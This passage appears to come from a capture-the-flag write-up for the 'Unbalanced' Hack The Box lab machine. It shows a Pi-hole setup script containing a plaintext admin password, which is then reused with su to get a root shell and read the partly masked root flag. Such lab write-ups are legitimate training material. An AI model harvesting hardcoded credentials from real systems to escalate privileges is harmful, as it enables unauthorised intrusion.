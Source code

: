 	  # Add local host record
	  /usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

	  # Set privacy level
	  /usr/local/bin/pihole -a -l 4

	  # Set web admin interface password
	  /usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

	  # Set admin email
	  /usr/local/bin/pihole -a email admin@unbalanced.htb

* there is a Pi-hole admin password: __bUbBl3gUm$43v3Ry0n3!__ and su using this password from bryan's ssh shell worked and get root shell

	  bryan@unbalanced:~$ su - root
	  Password: bUbBl3gUm$43v3Ry0n3!
	  root@unbalanced:~# id
	  uid=0(root) gid=0(root) groups=0(root)
	  root@unbalanced:~# cat root.txt
	  8c97fa50************************
